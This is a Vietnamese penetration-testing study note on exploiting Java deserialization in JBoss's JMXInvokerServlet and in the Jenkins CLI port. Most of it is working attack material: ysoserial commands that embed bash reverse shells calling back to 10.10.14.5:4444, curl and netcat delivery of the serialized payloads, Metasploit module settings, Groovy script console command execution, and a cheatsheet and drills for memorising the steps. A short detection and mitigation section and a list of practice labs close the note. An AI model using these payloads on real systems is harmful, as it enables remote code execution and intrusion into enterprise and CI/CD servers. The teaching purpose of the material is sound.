



> **Prerequisites**: [[09-java-gadget-chains-ysoserial|09. Gadget Chains & ysoserial]]
> **Objectives**:
> - Exploit JBoss `JMXInvokerServlet` endpoint qua HTTP POST
> - Exploit Jenkins CLI port 50000 deserialization
> - Sử dụng Metasploit modules cho cả hai target
> - Nhận diện các endpoint đặc trưng trong pentest nội bộ

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc — JBoss
> - JBoss AS 4.x / 5.x / 6.x với endpoint `/invoker/JMXInvokerServlet` exposed
> - Hoặc JBoss AS với `/invoker/EJBInvokerServlet` exposed
> - commons-collections trong classpath (JBoss bundle sẵn)
> - HTTP access đến port 8080 (default JBoss)

> [!note] Điều kiện bắt buộc — Jenkins
> - Jenkins ≤ 1.638 (CLI endpoint vulnerable)
> - TCP port 50000 reachable (Jenkins CLI port)
> - commons-collections 1.x trong Jenkins classpath

> [!tip] Đây là hai target rất phổ biến trong internal network pentests
> JBoss thường chạy trong banking/enterprise environments. Jenkins gần như có mặt trong mọi CI/CD pipeline. Cả hai thường không được update định kỳ vì team DevOps ngại rủi ro downtime.

---

## Cơ chế tấn công

### JBoss JMXInvokerServlet

JBoss expose một HTTP endpoint nhận serialized Java objects để invoke JMX operations — đây là design feature cho distributed management, không phải bug. Endpoint `/invoker/JMXInvokerServlet` chấp nhận HTTP POST với `Content-Type: application/x-java-serialized-object`.



### Jenkins CLI Deserialization

Jenkins CLI (pre-1.638) sử dụng Java serialization để transport commands qua TCP port 50000. Khi nhận một command object, Jenkins deserialize nó trước khi validate — attacker có thể inject gadget chain thay vì command object hợp lệ.



---

## Quy trình tấn công

**Môi trường giả định**:
- JBoss: `http://192.168.1.100:8080`
- Jenkins: `http://192.168.1.101:8080`, CLI port `192.168.1.101:50000`

### JBoss — Bước 1: Phát hiện Endpoint

```bash
# Kiểm tra JBoss invoker endpoints
curl -s -o /dev/null -w "%{http_code}" \
  http://192.168.1.100:8080/invoker/JMXInvokerServlet
# 200 hoặc 500 = endpoint tồn tại (không phải 404)

curl -s -o /dev/null -w "%{http_code}" \
  http://192.168.1.100:8080/invoker/EJBInvokerServlet
# Tương tự

# Nmap script detection
nmap -sV -p 8080 --script http-jboss-vulns 192.168.1.100
```

> **Expected output**: HTTP 200 hoặc 500 (không phải 404) → endpoint exposed. HTTP 404 → endpoint không có hoặc đã bị disabled.

### JBoss — Bước 2: URLDNS Confirm

```bash
# Generate URLDNS payload
java -jar ysoserial.jar URLDNS "http://jboss-test.COLLAB.oastify.com" > /tmp/urldns.ser

# Deliver via HTTP POST
curl -s http://192.168.1.100:8080/invoker/JMXInvokerServlet \
  -H "Content-Type: application/x-java-serialized-object" \
  --data-binary @/tmp/urldns.ser \
  -o /dev/null -w "HTTP %{http_code}\n"
```

> **Expected output**: Burp Collaborator DNS hit + HTTP 500 response → deserialization confirmed.

### JBoss — Bước 3: RCE

```bash
nc -lvnp 4444 &

# CommonsCollections6 — most compatible với JBoss
java -jar ysoserial.jar CommonsCollections6 \
  "bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'" > /tmp/jboss_shell.ser

curl -s http://192.168.1.100:8080/invoker/JMXInvokerServlet \
  -H "Content-Type: application/x-java-serialized-object" \
  --data-binary @/tmp/jboss_shell.ser \
  -o /dev/null
```

> **Expected output**: Reverse shell từ JBoss process user (`jboss` hoặc `root`).

### JBoss — Metasploit

```bash
msfconsole -q
use exploit/multi/http/jboss_invoke_deploy
set RHOSTS 192.168.1.100
set RPORT 8080
set TARGETURI /invoker/JMXInvokerServlet
set LHOST 10.10.14.5
set LPORT 4444
run
```

---

### Jenkins — Bước 1: Phát hiện

```bash
# Kiểm tra Jenkins version
curl -s http://192.168.1.101:8080/ | grep -i "jenkins\|version"
curl -s http://192.168.1.101:8080/login | grep -i "Jenkins Ver"

# Kiểm tra CLI port
nc -zv 192.168.1.101 50000 && echo "CLI port OPEN"

# Jenkins exposes version trong header
curl -sI http://192.168.1.101:8080/ | grep -i "X-Jenkins\|X-Hudson"
```

> **Expected output**: `X-Jenkins: 1.625` → version < 1.638 → vulnerable CLI endpoint.

### Jenkins — Bước 2: RCE via CLI Port

```bash
# Generate payload — CommonsCollections1 (Jenkins bundle CC 1.x)
java -jar ysoserial.jar CommonsCollections1 \
  "bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'" > /tmp/jenkins.ser

nc -lvnp 4444 &

# Deliver raw serialized payload to CLI port
# Jenkins CLI handshake: send Protocol header first
(echo -ne "\x00\x14\x50\x72\x6f\x74\x6f\x63\x6f\x6c\x3a\x43\x4c\x49\x2d\x63\x6f\x6e\x6e\x65\x63\x74"; \
 cat /tmp/jenkins.ser) | nc 192.168.1.101 50000
```

> **Expected output**: Reverse shell sau khi Jenkins deserialize payload.

### Jenkins — Metasploit

```bash
msfconsole -q
use exploit/multi/http/jenkins_cli_deserialization
set RHOSTS 192.168.1.101
set RPORT 8080
set LHOST 10.10.14.5
set LPORT 4444
run

# Hoặc nếu biết CLI port trực tiếp:
use exploit/multi/misc/java_rmi_server
```

### Jenkins — Alternative: Groovy Script Console (nếu có admin access)

```bash
# Nếu có credentials hoặc unauthenticated admin
curl -s http://192.168.1.101:8080/script \
  --data-urlencode "script=def cmd = 'id'.execute(); println cmd.text" \
  -u admin:password
```

---

## Biến thể & Bypass

### JBoss — Các Endpoint Khác

```bash
# Ngoài JMXInvokerServlet, kiểm tra thêm:
curl http://TARGET:8080/invoker/EJBInvokerServlet   # EJB invoker
curl http://TARGET:8080/jmx-console/                # JMX web console (unauthenticated)
curl http://TARGET:8080/web-console/Invoker          # Web console invoker
```

### JBoss 7+ / WildFly (Newer Versions)

```bash
# JBoss 7+ dùng management port 9990 (HTTP) và 9999 (native)
# Khác hoàn toàn với 4.x/5.x/6.x
curl http://TARGET:9990/management
# Xem CVE riêng: CVE-2017-7504, CVE-2015-7501
```

### Jenkins — Unauthenticated RCE via Old Script Console

```bash
# Jenkins < 1.551 không require authentication cho /script
curl -s http://TARGET:8080/script \
  --data-urlencode 'script=["id"].execute().text'
```

---

## Cây quyết định



---

## Command Cheatsheet

**JBoss Detection & Exploit**

```bash
# Detect
curl -o /dev/null -w "%{http_code}" http://TARGET:8080/invoker/JMXInvokerServlet

# URLDNS confirm
java -jar ysoserial.jar URLDNS "http://collab" > u.ser
curl http://TARGET:8080/invoker/JMXInvokerServlet \
  -H "Content-Type: application/x-java-serialized-object" --data-binary @u.ser

# RCE
java -jar ysoserial.jar CommonsCollections6 "bash -c 'bash -i >& /dev/tcp/LHOST/PORT 0>&1'" > shell.ser
curl http://TARGET:8080/invoker/JMXInvokerServlet \
  -H "Content-Type: application/x-java-serialized-object" --data-binary @shell.ser
```

**Jenkins Detection & Exploit**

```bash
# Detect version
curl -sI http://TARGET:8080/ | grep X-Jenkins

# Check CLI port
nc -zv TARGET 50000

# RCE via CLI (commonsCollections1 for older Jenkins)
java -jar ysoserial.jar CommonsCollections1 "bash -i >& /dev/tcp/LHOST/PORT 0>&1" > j.ser
(printf "\x00\x14Protocol:CLI-connect"; cat j.ser) | nc TARGET 50000
```

---

## Daily Drill

**Thời gian**: 15 phút/ngày trong 7 ngày.

**Drill 1 — JBoss endpoint probe**
Mục tiêu: nhớ path endpoint và curl command không cần notes.

```bash
curl -o /dev/null -w "%{http_code}" http://TARGET:8080/invoker/JMXInvokerServlet
# 200/500 = exposed; 404 = gone
```

Luyện cho đến khi: gõ path `/invoker/JMXInvokerServlet` không cần nhìn cheatsheet.

**Drill 2 — Jenkins version check + CLI probe**
Mục tiêu: xác nhận Jenkins version và CLI status trong < 30 giây.

```bash
curl -sI http://TARGET:8080/ | grep X-Jenkins
nc -zv TARGET 50000
```

Luyện cho đến khi: hai lệnh liên tiếp mà không cần dừng lại tra cứu.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **JBoss**: HTTP POST đến `/invoker/JMXInvokerServlet` với `Content-Type: application/x-java-serialized-object` từ IP ngoài internal app servers → immediate alert
> **Jenkins**: Inbound TCP 50000 từ IP không phải build agents → suspicious
> **Process**: Unexpected subprocess (bash, cmd) spawned từ JBoss/Jenkins JVM process
> **Log**: `java.lang.ClassNotFoundException` cho gadget chain classes trong server logs

> [!note] Mitigation
> - JBoss: Disable `/invoker/*` endpoints nếu không dùng, hoặc restrict bằng IP-based access control
> - Jenkins: Upgrade lên phiên bản ≥ 2.x; restrict port 50000 bằng firewall
> - Deploy SerialKiller agent trên cả hai để blacklist known gadget classes
> - Cả hai: không expose management ports ra internet

---

## Lab Thực hành

| Platform | Machine | Tại sao phù hợp |
|----------|---------|----------------|
| HTB | **Jeeves** (Retired) | Jenkins — Groovy script console + deserialization |
| VulnHub | **JBoss-Vuln** images | Dedicated JBoss 5.x/6.x vulnerable VMs |
| TryHackMe | **Internal** | Jenkins CI/CD in internal network context |
| Metasploit | **metasploitable3** | JBoss included by default |
